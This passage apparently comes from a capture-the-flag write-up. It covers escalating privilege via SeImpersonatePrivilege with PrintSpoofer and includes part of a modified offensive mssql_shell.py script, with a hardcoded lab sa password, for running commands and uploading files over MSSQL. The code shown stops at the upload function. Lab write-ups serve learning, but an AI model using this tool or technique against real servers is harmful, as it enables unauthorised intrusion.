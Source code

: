 We now have a better shell on the box, with some more options. 

google SeImpersonatePrivilege privilege-escalation
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens
I have not set up my development env, i need to look for allready build version. 
I found a build version of printspoofer
https://github.com/dievus/printspoofer

There is a problem with the mssql_shell when it comes to upload files if you have python3 3.9+ 
where base64 has which from *encodestring* to *encodebytes*. I have modified the script to handle both environments 

mssql_shell.py
```python
#!/usr/bin/env python
from __future__ import print_function
# Author: Alamot
# Use pymssql >= 1.0.3 (otherwise it doesn't work correctly)
# To upload a file, type: UPLOAD local_path remote_path
# e.g. UPLOAD myfile.txt C:\temp\myfile.txt
# If you omit the remote_path it uploads the file on the current working folder.
# Be aware that pymssql has some serious memory leak issues when the connection fails (see: https://github.com/pymssql/pymssql/issues/512).
import _mssql

try:
	from base64 import encodebytes
except ImportError:
	from base64 import encodestring as encodebytes

import shlex
import sys
import tqdm
import hashlib
from io import open
try: input = raw_input
except NameError: pass


MSSQL_SERVER="10.10.10.240"
MSSQL_USERNAME = "sa"
MSSQL_PASSWORD = "#mssql_s3rV1c3!2020"
BUFFER_SIZE = 5*1024
TIMEOUT = 30


def process_result(mssql):
    username = ""
    computername = ""
    cwd = ""
    rows = list(mssql)
    for row in rows[:-3]:
        columns = list(row)
        if row[columns[-1]]:
            print(row[columns[-1]])
        else:
            print()
    if len(rows) >= 3:
        (username, computername) = rows[-3][list(rows[-3])[-1]].split('|')
        cwd = rows[-2][list(rows[-3])[-1]]
    return (username.rstrip(), computername.rstrip(), cwd.rstrip())


def upload(mssql, stored_cwd, local_path, remote_path):
```
